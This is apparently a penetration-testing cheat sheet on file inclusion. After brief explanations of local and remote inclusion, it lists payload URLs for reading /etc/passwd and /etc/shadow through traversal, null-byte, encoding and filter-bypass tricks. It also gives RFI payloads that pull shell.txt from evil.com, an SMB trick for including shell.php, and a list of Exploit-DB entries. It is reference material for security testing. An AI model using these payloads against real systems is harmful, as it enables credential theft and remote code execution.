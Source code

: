# Concept

## File Inclusion

The File Inclusion vulnerability allows an attacker to include a file, usually exploiting a "dynamic file inclusion" mechanisms implemented in the target application. This attack is run when an application builds a path to executable code using an attacker-controlled variable in a way that allows the attacker to control which file is executed at run time. A file include vulnerability is distinct from a generic directory traversal attack (path traversal attack), in that directory traversal is a way of gaining unauthorized file system access.

### Remote File Inclusion

Remote file inclusion (RFI) occurs when the web application downloads and executes a remote file. These remote files are usually obtained in the form of an HTTP or FTP URI as a user-supplied parameter to the web application.

### Local File Inclusion

Local file inclusion (LFI) is similar to a remote file inclusion vulnerability except instead of including remote files, only local files i.e. files on the current server can be included for execution. This issue can still lead to remote code execution by including a file that contains attacker-controlled data such as the web server's access logs.

### LFI Files - Linux

```
/etc/passwd
/etc/shadow
/etc/knockd.conf
```

### &#x20;LFI Basic - Linux

```
http://192.168.128.10/menu.php?file=/etc/passwd
http://192.168.128.10/menu.php?file=../etc/passwd
http://192.168.128.10/menu.php?file=../../etc/passwd
http://192.168.128.10/menu.php?file=../../../etc/passwd
http://192.168.128.10/menu.php?file=../../../../../../../../../../etc/passwd
```

### &#x20;LFI Basic - Windows

```
http://192.168.128.10/menu.php?file=c:\windows\system32\drivers\etc\hosts
```

### &#x20;LFI Null byte

In versions of PHP below 5.3.4 we can terminate with null byte.\


```
http://192.168.128.10/menu.php?file=/etc/passwd%00
```

### &#x20;LFI Double encoding

```
http://192.168.128.10/menu.php?file=%252fetc%252fpasswd
http://192.168.128.10/menu.php?file=%252e%252e%252fetc%252fpasswd
```

### &#x20;LFI UTF encoding

```
http://192.168.128.10/menu.php?file=/etc/passwd
http://192.168.128.10/menu.php?file=%c0%ae%c0%ae/etc/passwd
```

### &#x20;LFI Filter bypass

```
http://192.168.128.10/menu.php?file=../../etc/passwd
http://192.168.128.10/menu.php?file=....//....//etc/passwd
http://192.168.128.10/menu.php?file=..///////..////..//////etc/passwd
http://192.168.128.10/menu.php?file=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
```

### &#x20;Some tricks

```bash
# In the case below, 
nineveh.htb/department/manage.php?notes=files/ninevehNotes.txt
# Add ../ at the end of URL
nineveh.htb/department/manage.php?notes=files/ninevehNotes.txt../
```

### &#x20;RFI Basic - Linux

```
http://example.com/index.php?page=http://evil.com/shell.txt
```

### &#x20;RFI Null byte

```
http://example.com/index.php?page=http://evil.com/shell.txt%00
```

### &#x20;RFI Double encoding

```
http://example.com/index.php?page=http:%252f%252fevil.com%252fshell.txt
```

### &#x20;RFI SMB trick - Windows

```bash
# When allow_url_include and allow_url_fopen are set to Off. 
# It is still possible to include a remote file on Windows box 
# using the smb protocol.
1. Create a share open to everyone
2. Write a PHP code inside a file : shell.php
3. Include it 
http://example.com/index.php?page=\\10.0.0.1\share\shell.php
```

### Exploit DB

```bash
PHPLiteAdmin 1.9.3 - Remote PHP Code Injection (https://www.exploit-db.com/exploits/24044)
Elastix 2.2.0 - 'graph.php' Local File Inclusion (https://www.exploit-db.com/exploits/37637)
Webmin < 1.290 / Usermin < 1.220 - Arbitrary File Disclosure (https://www.exploit-db.com/exploits/2017)
Advanced Comment System 1.0 - Multiple Remote File Inclusions (https://www.exploit-db.com/exploits/9623)
Simple Text-File Login script 1.0.6 (https://www.exploit-db.com/exploits/7444)
```

&#x20;
